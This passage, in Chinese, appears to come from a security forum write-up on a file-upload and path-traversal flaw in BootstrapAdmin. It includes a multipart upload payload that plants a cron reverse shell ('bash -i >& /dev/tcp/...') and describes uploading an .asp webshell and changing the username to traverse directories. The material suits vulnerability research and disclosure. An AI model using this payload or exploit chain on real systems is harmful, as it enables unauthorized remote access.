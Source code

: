 ```php
Content-Disposition: form-data; name="file_data"; filename="."
Content-Type: image/jpeg

* * * * * bash -i >& /dev/tcp/192.168.68.1/6666  0>&1%0a
```

需要注意的是我们需要将`%0a`进行URL编码解码发包才可以。

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/05/attach-e4aa7e5ec54da3e7acab007e8ebeedc8b83b6f5d.png)

解码之后发送请求。

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/05/attach-cdc79a629a39ccc51a91afc88cad257f251f3e10.png)

到测试服务器上查看，发现已经写入。

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/05/attach-8a77d2fc83bf979c9b5298f4cadc115737f3a0a8.png)

Windows 开 nc 监听等待一分钟也能连上，至此成功Getshell。

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/05/attach-a59d8a6d2e765fab17c35a5cc451fd34d910b312.png)

### 漏洞定位

`BootstrapAdmin\src\mvc\admin\Bootstrap.Admin\Controllers\Api\ProfilesController.cs`  
这里的 fileName 是使用当前用户名拼接上传文件的 filename 得来的，所以我们在上传文件的时候修改后缀 .asp 即可上传木马文件。

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/05/attach-da04f014b27a91e95523b9f2db36e93791b9ea77.png)

为什么无法解析呢？我们往下看。  
`BootstrapAdmin\src\mvc\admin\Bootstrap.Admin\Startup.cs`  
app.UseStaticFiles() 中间件默认配置为从“wwwroot”目录提供文件服务。

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/05/attach-3aaa4111d3acf3821b8d6274faa21bbea3074ec5.png)

设置了这个中间件去访问动态文件 asp 时会因为`app.UseStatusCodePagesWithReExecute("/Home/Error/{0}");`返回`/Home/Error/404`的界面。  
访问：`http://localhost:50852/Admin/Profiles`

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/05/attach-95208c4ec2e3559a8310ca62a8981d9bcfbce8e3.png)

找到修改头像，选择一句话木马后上传，抓包修改后缀名为 asp 放包即可。

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/05/attach-61c9e8e78c543e838fcbd40f44b9240a85ee8bdb.png)

可以看到文件已经上传成功了。

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/05/attach-cbf292cbb2133853e294916cf1beea42e6c7bc00.png)

虽然文件上传成功，但很可惜，无法解析。

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/05/attach-d15457b4b953da8516cf2fe95851559214a2cf4f.png)

我注意到`fileName = $"{userName}{Path.GetExtension(uploadFile.FileName)}";`  
路径拼接中使用了`userName`，那我可以尝试通过修改用户名来达到目录穿越的目的。  
更新用户名，`PUT http://localhost:50852/api/Profiles`
